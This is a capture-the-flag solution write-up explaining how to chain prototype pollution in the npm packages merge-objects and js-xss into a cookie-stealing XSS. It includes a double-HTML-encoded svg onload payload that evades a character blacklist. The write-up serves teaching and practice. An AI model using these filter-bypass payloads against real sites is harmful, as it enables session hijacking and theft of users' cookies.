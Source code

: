 # Solution
The intended solution involves chaining together the following three vulnerabilies from two different npm packages, roughly in this order:
1. `merge-objects` prototype pollution: https://npmjs.com/advisories/716
2. `xss` prototype pollution to XSS: https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/js-xss.md
3. `xss` failing to re-escape whitelisted attribute values: https://github.com/leizongmin/js-xss/issues/180

When used in conjunction, these vulnerabilies allow you to construct a payload that bypasses the XSS filter as well as the blacklist filter.
The purpose of the blacklist filter (`sanitized.replace(/C/g, '\u0421').replace(/c/g, '\u0441')`) is to make it so that if players want to access the `document.cookie` value, they have to take advantage of the fact that the XSS filter does not re-escape attribute values it previously un-escaped.

As an example, the payload `<svg onload="alert(document.cookie)">` 
would easily be caught by the blacklist filter because it contains multiple `c`s. HTML encoding the JavaScript portion once would give you
```html
<svg onload=&#97;&#108;&#101;&#114;&#116;&#40;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#41;>
```
which would still be caught as it would revert to `<svg onload="alert(document.cookie)">` once it is un-escaped by the XSS filter.

HTML encoding the JavaScript portion of the payload twice works because 
```html
<svg onload=&#38;&#35;&#57;&#55;&#59;&#38;&#35;&#49;&#48;&#56;&#59;&#38;&#35;&#49;&#48;&#49;&#59;&#38;&#35;&#49;&#49;&#52;&#59;&#38;&#35;&#49;&#49;&#54;&#59;&#38;&#35;&#52;&#48;&#59;&#38;&#35;&#49;&#48;&#48;&#59;&#38;&#35;&#49;&#49;&#49;&#59;&#38;&#35;&#57;&#57;&#59;&#38;&#35;&#49;&#49;&#55;&#59;&#38;&#35;&#49;&#48;&#57;&#59;&#38;&#35;&#49;&#48;&#49;&#59;&#38;&#35;&#49;&#49;&#48;&#59;&#38;&#35;&#49;&#49;&#54;&#59;&#38;&#35;&#52;&#54;&#59;&#38;&#35;&#57;&#57;&#59;&#38;&#35;&#49;&#49;&#49;&#59;&#38;&#35;&#49;&#49;&#49;&#59;&#38;&#35;&#49;&#48;&#55;&#59;&#38;&#35;&#49;&#48;&#53;&#59;&#38;&#35;&#49;&#48;&#49;&#59;&#38;&#35;&#52;&#49;&#59;>
```
becomes 
```html
<svg onload=&#97;&#108;&#101;&#114;&#116;&#40;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#41;>
```
after passing through the XSS filter. This payload will now make it past the blacklist filter and be served as a webpage to the hero, which will cause it to be un-escaped an additional time and interpreted as
`<svg onload="alert(document.cookie)">` as intended. Please note that the actual payload will need to send the cookie to another server controlled by the attacker and the above payload is just for illustrative purposes.

The blacklist filter also forces players to use a somewhat more rare XSS payload that doesn't directly contain a `c`, as a lot of the most common ones do (e.g. <code><s<b>c</b>ript sr<b>c</b>=...</code>, <code><img sr<b>c</b>=...</code>, <code><iframe sr<b>c</b>=...</code>, etc.).

Lastly, here is a list of XSS payloads that I used to find one that can be triggered without using a `c`: https://gist.github.com/phra/76518994c908ac836ec5a393f188f89a
